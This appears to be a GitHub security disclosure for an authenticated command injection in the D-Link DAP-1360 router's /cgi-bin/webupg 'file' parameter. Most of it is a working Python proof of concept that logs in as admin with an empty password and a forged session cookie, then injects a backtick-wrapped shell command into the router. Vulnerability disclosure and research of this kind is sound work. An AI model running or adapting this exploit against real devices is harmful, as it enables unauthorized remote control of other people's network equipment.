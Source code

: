 # D-Link DAP-1360 Authorization Remote Command Execution
An authorization command injection vulnerability about DAP-1360

</br>**Exploit Author:** KeenSight Lab.Tgp (topsuchow@gmail.com)
</br>**Vender:** D-Link

## /cgi-bin/webupg
**Firmware version:** 
DAP-1360(F1): <=v6.10
</br>......
<br/>**Hardware Link:**https://downloads.d-link.co.za/DAP/dap1360/Firmware/Hardware%20Version%20F/
## The detail of vulnerability
In the "webupg" binary, because of the lack of parameter verification, attackers can use "file" parameters to execute arbitrary system commands after obtaining authorization.

#### Vulnerability trigger function
`UPGCGI_CreateDir`
![image](https://github.com/tgp-top/DAP-1360/blob/2d09c23efafd8d3199b0a84d5b159f3cdbd26638/%E5%9B%BE%E7%89%87/1.png)

`UPGCGI_Delete`
![image](https://github.com/tgp-top/DAP-1360/blob/2d09c23efafd8d3199b0a84d5b159f3cdbd26638/%E5%9B%BE%E7%89%87/2.png)

`UPGCGI_ModifyMac`
![image](https://github.com/tgp-top/DAP-1360/blob/2d09c23efafd8d3199b0a84d5b159f3cdbd26638/%E5%9B%BE%E7%89%87/3.png)

`Burpsuite intercept`
![image](https://github.com/tgp-top/DAP-1360/blob/220154515d7b765ecc8daffd6c990ba45df4735f/%E5%9B%BE%E7%89%87/4.png)

## POC
<sup> 




    #!/usr/bin/python
    # -*- coding: utf-8 -*-

    import requests, urllib3, sys, re
    import base64

    from urllib3.exceptions import ConnectTimeoutError
    urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)
    from urllib.parse import urlencode
    import os
    import telnetlib

    proxy = {
            "http": "http://127.0.0.1:8080"
        }
    def login(phost):
      ipaddr=str(re.findall(r"(.+?):", phost))
      if len(ipaddr)==2:
        ipaddr=phost
      print (ipaddr)
      post_data = {
          "getpage": "html/index.html",
          "errorpage": "html/main.html",
          "var:menu": "setup",
        "var:page": "wizard",
        "var:login": "true",
        "obj-action": "auth",
        ":username": "admin",
        ":password": "",
        ":action": "login",
        ":sessionid": "3f412f91"
      }
      headers1 = {
          "Host": phost,
          "Content-Type": "application/x-www-form-urlencoded",
          "Referer": "http://" + phost + "/cgi-bin/webproc",
          "Connection": "close",
          "Origin": "http://" + phost,
          "Cookie": "sessionid=3f412f91; expires=Mon, 31-Jan-2050 16:00:00 GMT; auth=ok; Lan_IPAddress=" + ipaddr +"; langmanulset=yes; sys_UserName=admin; expires=Mon, 31-Jan-2050 16:00:00 GMT; language=zh_cn"
      }
      headers2 = {
          "Host": phost,
          "Content-Type": "application/x-www-form-urlencoded",
          "Referer": "https://" + phost + "/cgi-bin/webproc",
          "Connection": "close",
          "Origin": "https://" + phost,
          "Cookie": "sessionid=3f412f91; expires=Mon, 31-Jan-2050 16:00:00 GMT; auth=ok; Lan_IPAddress=" + ipaddr +"; langmanulset=yes; sys_UserName=admin; expires=Mon, 31-Jan-2050 16:00:00 GMT; language=zh_cn"
      }
      try:
        url1 = 'http://' + phost + '/cgi-bin/webproc'
        r1 = requests.post(url1, data=post_data, headers=headers1, allow_redirects=False,proxies=proxy, timeout=10)
        if r1.status_code==302:
          print ("Login success!")
        elif r1.text=="":
          exit(0)
      except Exception:
        try:
          url2 = 'https://' + phost + '/cgi-bin/webproc'
          r2 = requests.post(url2, data=post_data, headers=headers2,verify=False,allow_redirects=False,proxies=proxy,timeout=10)
          if r2.status_code==302:
            print ("Login success!")
          elif r2.text=="":
            exit(0)
        except Exception:
          print("ConnectTimeout")
          exit(0)


    def execCmd(phost):
      ipaddr=str(re.findall(r"(.+?):", phost))
      if len(ipaddr)==2:
        ipaddr=phost
      payload = "`busybox`"
      post_data = {
          "name": "createdir", 
        "file":  payload 
      }
      headers = {
            "Host": phost,
        "Cache-Control": "max-age=0",
        "Upgrade-Insecure-Requests": "1",
        "Origin": "http://" + phost,
        "Content-Type": "application/x-www-form-urlencoded",
        "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/90.0.4430.85 Safari/537.36",
          "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9",
        "Referer": "http://" + phost + "/cgi-bin/webupg",
        "Accept-Encoding": "gzip, deflate",
        "Accept-Language": "zh-CN,zh;q=0.9",
          "Cookie": "sessionid=3f412f91; expires=Mon, 31-Jan-2050 16:00:00 GMT; auth=ok; Lan_IPAddress=45.240.248.137; langmanulset=yes; sys_UserName=admin; language=en_us; expires=Mon, 31-Jan-2050 16:00:00 GMT",
        "Connection": "close"
                    }
      url = "http://" + phost + "/cgi-bin/webupg"
      r = requests.post(url, data=post_data, headers=headers,allow_redirects=False, proxies=proxy)
      string = r.status_code
      print (r.headers)


    def main():
      if (len(sys.argv) != 2):
        print("[*] Usage: ruckus151021.py <RHOST>")
        print("[*] <RHOST> -> Target IP")
        print("[*] Example: python {} 192.168.2.1")
        exit(0)

      phost = sys.argv[1]
      login(phost)
      execCmd(phost)

    if __name__ == "__main__":
        main()



</sup>





  
  
  
